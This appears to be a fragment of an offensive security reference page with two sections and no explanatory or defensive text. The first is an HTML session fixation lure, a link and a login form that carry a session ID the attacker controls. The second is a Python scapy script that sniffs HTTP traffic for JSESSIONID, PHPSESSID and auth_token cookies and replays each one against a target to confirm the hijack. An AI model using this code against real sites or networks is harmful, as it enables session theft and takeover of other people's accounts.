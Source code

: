 ### 🔄 Session Fixation Attack
```html
<!-- Malicious link with fixed session ID -->
<a href="http://target-site.com/login?JSESSIONID=ATTACKER_CONTROLLED_ID">
    Secure Login Portal
</a>

<!-- Hidden form submission -->
<form action="http://target-site.com/login" method="POST">
    <input type="hidden" name="session_id" value="FIXED_SESSION_ID">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```

### 📡 Network-Based Session Capture
```python
#!/usr/bin/env python3
from scapy.all import *
import re

def extract_sessions(packet):
    if packet.haslayer(Raw):
        payload = packet[Raw].load.decode('utf-8', errors='ignore')
        
        # Extract session cookies
        cookie_patterns = [
            r'JSESSIONID=([^;]+)',
            r'PHPSESSID=([^;]+)',
            r'auth_token=([^;]+)'
        ]
        
        for pattern in cookie_patterns:
            match = re.search(pattern, payload, re.IGNORECASE)
            if match:
                session_id = match.group(1)
                src_ip = packet[IP].src
                print(f"Session captured: {src_ip} -> {session_id}")
                
                # Test session validity
                test_session_hijack(session_id)

def test_session_hijack(session_id):
    """Test captured session for validity"""
    session = requests.Session()
    session.cookies.set('JSESSIONID', session_id)
    
    try:
        response = session.get('http://target-app.com/dashboard')
        if response.status_code == 200:
            print(f"[!] Valid session hijacked: {session_id}")
    except:
        pass

# Capture HTTP traffic for session tokens
sniff(filter="tcp port 80", prn=extract_sessions)
```

---
